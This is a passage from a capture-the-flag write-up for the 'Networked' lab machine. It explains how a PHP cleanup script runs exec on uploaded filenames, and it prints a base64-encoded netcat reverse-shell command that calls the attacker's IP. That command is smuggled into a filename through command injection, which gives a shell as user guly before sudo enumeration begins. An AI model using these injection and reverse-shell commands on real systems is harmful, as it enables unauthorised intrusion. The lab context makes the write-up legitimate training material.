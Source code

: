 ```

?>
```

If you don't understand the code that's fine. i know that the `exec` function is executing the command line functions. We have two lines in the code which uses `exec` function in a PHP code. The `$logpath` variable is set at the top statically. The `$path` variable is also set statically. But if you look at the `$value` variable that is not set. The `IF` condition is checking the value for the `$value` variable. We know that whatever we will upload goes to `/var/www/html/uploads` directory.  We are going to do the following steps to get the shell for the user `guly`.

```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Linux-Boxes/Networked.htb]
└─# echo nc -e /bin/bash 10.10.14.8 4444 | base64 -w0
bmMgLWUgL2Jpbi9iYXNoIDEwLjEwLjE0LjggNDQ0NAo=  
```

This will be the base64 to initiate the NetCat connection. On our target box, in the `/var/www/html/uploads/` directory, we are going to create a file as follows
```
sh-4.2$ touch '/var/www/html/uploads/shell; echo bmMgLWUgL2Jpbi9iYXNoIDEwLjEwLjE0LjggNDQ0NAo= | base64 -d | sh;'
sh-4.2$ ls
ls
10_10_14_8.php.gif
127_0_0_1.png
127_0_0_2.png
127_0_0_3.png
127_0_0_4.png
index.html
shell; echo bmMgLWUgL2Jpbi9iYXNoIDEwLjEwLjE0LjggNDQ0NAo= | base64 -d | sh;
```

On the NetCat Side, you will need to wait 3 minutes
```
# nc -lvnp 4444                                    
listening on [any] 4444 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.146] 46066
id
uid=1000(guly) gid=1000(guly) groups=1000(guly)
```

Get your User Flag.

### `Privilege Escalation`

###### `sudo -l always saves the day`
```
[guly@networked home]$ sudo -l
sudo -l
Matching Defaults entries for guly on networked:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh
```
